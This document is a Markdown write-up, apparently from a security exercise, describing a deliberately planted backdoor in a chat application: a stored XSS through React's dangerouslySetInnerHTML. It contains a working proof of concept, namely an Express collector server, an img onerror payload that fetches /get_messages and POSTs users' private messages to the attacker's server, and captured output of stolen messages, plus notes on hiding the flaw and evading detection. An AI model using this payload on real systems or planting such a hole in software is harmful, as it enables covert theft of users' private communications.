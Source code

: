 # Backdoor 1: Data Exfiltration

## Description

This backdoor exploits a persistent cross-site scripting (XSS) vulnerability to exfiltrate stored client-side data, compromising the confidentiality of users in the chat system.

## Technical Details

Messages are stored client-side in a volume that users can retain for a configurable duration. The frontend retrieves these messages using a `/get_messages` endpoint, which extracts a message JSON object from a Docker volume. These messages are then displayed inside a React component using `dangerouslySetInnerHTML`. By sending a message containing malicious script, whether public or private, an attacker can force the receiving clients to execute this script whenever they view their messages. In the case of a private message, this allows targeted attacks on specific users.

Crucially, this malicious script can itself call `/get_messages`, but instead of displaying the data, it can exfiltrate the messages to an unauthorized remote server. The code snippets at the end of this document provide a comprehensive understanding of the vulnerability enabling this backdoor.

## Objectives

This backdoor violates several key security principles:

- Confidentiality: It allows unauthorized access to private messages intended only for specific recipients.
- Integrity: The attacker can potentially modify or inject false messages into the chat system.
- Authentication: The backdoor bypasses any authentication measures in place for accessing private messages.
- Non-repudiation: Users could deny sending certain messages, as the attacker could impersonate them.
- Trust: It undermines the trust users place in the system's ability to keep their communications private.

## Exploitation Method (Proof of Concept)

1. Attacker identifies that messages are displayed using `innerHTML` and not `innerText`.

![Image 1.1](appendix/Image%201.1.png)

<p align="center"><em>Figure 3.1: A simple XSS test. The attacker refreshes the page and realises that the message is stored, so it's persistent</em></p>

2. Attacker monitors their network tab to see what request the frontend is making to the backend.

![Image 1.2](appendix/Image%201.2.png)

<p align="center"><em>Figure 1.2: The <code>`/get_messages`</code> endpoint catches the attacker's eye!</em></p>

3. Attacker sets up a very basic server to retrieve responses.

```js
const express = require("express");
const bodyParser = require("body-parser");
const cors = require("cors");
const app = express();
const port = 3000;

app.use(cors());
app.use(bodyParser.json());

app.post("/return", (req, res) => {
  console.log("Received POST request at /return");
  console.log("Request body:", req.body);
  res.status(200).send("Request received and logged");
});

app.listen(port, () => {
  console.log(`Server listening at http://localhost:${port}`);
});


...
[ 1 16:38:00 john-wayne-gacy ~/Documents/OMesh/backdoor/appendix ] $ node server.js
Server listening at http://localhost:3000
```

4. Attacker crafts a special XSS attack which will make a request to `/get_messages` and send the response to their server.

```html
<img
  src="x"
  onerror='fetch("/get_messages").then(r=>r.json()).then(d=>fetch("http://localhost:3000/return",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify(d)}))'
/>
```

5. Attacker waits some time for other clients to send some private messages

![Image 1.3](appendix/Image%201.3.png)

<p align="center"><em>Figure 1.3: Clients 2 and 3 are speaking privately, thinking that client 1 can't see their messages</em></p>

6. Attacker sends a private XSS attack to client 2 and waits for them to refresh their messages.

![Image 1.4](appendix/Image%203.3.png)

<p align="center"><em>Figure 1.4: Client 2 retrieves the XSS attack!</em></p>

7. Victim client loads XSS attack, which forces them to send their messages to the attacker's server.

```
[ 0 16:51:34 the-zodiac-killer ~/Documents/OMesh/backdoor/appendix ] $ node server.js
Server listening at http://localhost:3000
Received POST request at /return
Request body: {
  messages: [
    {
      message: 'hi client 3, we can talk in private here!!!',
      sender: 'kOCmwXHM5C/pNO5nW+FTdDxCFr6CHnT75u6doHno+7o=',
      timestamp: 1727767376.9362664
    },
    {
      message: 'hi client 2, yes we can! client 1 will never be able to see this!',
      sender: 'YEym18KEGEn68nr3MHSnOCN+h5thptu+amZA7Y1HJvo=',
      timestamp: 1727767403.5918934
    },
    {
      message: `<img   src="x"   onerror='fetch("/get_messages").then(r=>r.json()).then(d=>fetch("http://localhost:3000/return",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify(d)}))' />`,
      sender: 'C7G1Mrjqk6nDlS5u7Fv3R221UovWf9HzffZQtEzrOt4=',
      timestamp: 1727767593.7110288
    }
  ]
}
```

<p align="center"><em>Figure 1.5: Attacker successfully retrieves private 'secure' messages from a simple XSS vulnerability</em></p>

## Detection Challenges

- The vulnerability hinges on a single, easily overlooked line in approximately 4,000 lines of code: the use of `dangerouslySetInnerHTML`.
- Much of the code enabling this exploit serves legitimate purposes within the application. The storage and retrieval of data in client volumes is necessary for the messaging functionality.
- The XSS payload can be obfuscated or split across multiple messages to evade simple pattern-matching detection methods.
- The actual data exfiltration occurs client-side, making it difficult to detect through server-side logging or monitoring.
- The attack leaves minimal traces in server logs, as it primarily exploits client-side vulnerabilities.
- Regular security scans might not detect this vulnerability if they're not specifically configured to check for XSS in React applications.

## Code Snippets

```jsx
// ... (rest of react component)
<p
  className="break-words"
  dangerouslySetInnerHTML={{ __html: messageContent }}
></p>
```

<p align="center"><em>Figure 1.1: Code Snippet showing use of <code>dangerouslySetInnerHTML</code></em></p>

```python
@app.route('/get_messages', methods=['GET'])
def get_messages():
    if MESSAGE_EXPIRY_TIME == 0:
        # Messages are not stored; return the current messages and clear them
        messages = client_instance.incoming_messages.copy()
        client_instance.incoming_messages.clear()
        return jsonify({'messages': messages})
    else:
        current_time = time.time()
        with client_instance.message_lock:
            if MESSAGE_EXPIRY_TIME > 0:
                # Remove expired messages
                client_instance.incoming_messages = [
                    msg for msg in client_instance.incoming_messages
                    if current_time - msg['timestamp'] <= MESSAGE_EXPIRY_TIME
                ]
                client_instance.save_messages()

            messages = client_instance.incoming_messages.copy()
        return jsonify({'messages': messages})
```

<p align="center"><em>Figure 1.2: Code Snippet showing the client's logic to send back messages</em></p>
